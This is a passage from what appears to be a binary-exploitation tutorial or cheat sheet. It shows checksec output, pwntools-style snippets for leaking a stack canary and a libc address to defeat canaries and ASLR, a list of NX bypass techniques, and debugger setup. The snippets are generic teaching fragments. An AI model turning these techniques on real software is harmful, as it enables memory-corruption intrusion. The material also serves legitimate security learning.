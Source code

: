 **Output example:**
```
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE
```

### Bypassing Stack Canaries

```python
# 1. Leak canary value
payload = b'A' * offset_to_canary
p.send(payload)
leak = p.recv()
canary = u64(leak[offset:offset+8])

# 2. Include canary in overflow
payload = b'A' * offset
payload += p64(canary)  # Preserve canary
payload += p64(saved_rbp)
payload += p64(ret_addr)  # Overwrite return
```

### Bypassing ASLR

```python
# Leak address from GOT/PLT
# Calculate base address
# Use calculated addresses in exploit

# Example: leak puts address
payload = create_leak_payload()
p.sendline(payload)
puts_leak = u64(p.recv(6).ljust(8, b'\x00'))
libc_base = puts_leak - libc.symbols['puts']
```

### Bypassing NX (DEP)

```python
# Use ROP chains instead of shellcode
# ret2libc
# ret2syscall
# ROP to mprotect() to make stack executable
```

## 🔧 Tools

### Essential Tools

**Debuggers:**
```bash
# GDB with enhancements
gdb -q ./binary
gef> # GDB Enhanced Features
peda> # PEDA (Python Exploit Development Assistant)
pwndbg> # pwndbg

# Install pwndbg
git clone https://github.com/pwndbg/pwndbg
cd pwndbg
./setup.sh
```
